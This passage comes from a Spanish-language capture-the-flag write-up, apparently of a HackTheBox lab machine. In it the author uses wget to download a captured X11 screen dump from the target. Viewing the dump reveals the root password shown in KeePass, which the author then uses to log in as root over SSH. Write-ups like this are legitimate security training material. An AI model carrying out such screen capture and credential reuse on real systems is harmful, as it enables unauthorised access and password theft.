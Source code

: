 Ahora solo nos queda recogerla y abrirla en local ya:

~~~bash
❯ wget 10.10.11.191:3456/captura
--2022-11-29 02:54:18--  http://10.10.11.191:3456/captura
Conectando con 10.10.11.191:3456... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 1923179 (1,8M) [application/octet-stream]
Grabando a: «captura»

captura                100%[============================>]   1,83M  2,21MB/s    en 0,8s    

2022-11-29 02:54:19 (2,21 MB/s) - «captura» guardado [1923179/1923179]
❯ xwud -in captura
~~~
![](/assets/images/squashed/keepass.png){: .align-center}

Ya tenemos la contraseña de root, así que vamos a conectarnos por SSH:

~~~bash
❯ ssh root@$ip
root@10.10.11.191's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 29 Nov 2022 02:11:29 AM UTC

  System load:  0.0               Processes:               255
  Usage of /:   75.5% of 5.79GB   Users logged in:         1
  Memory usage: 36%               IPv4 address for ens160: 10.10.11.191
  Swap usage:   0%

~~~
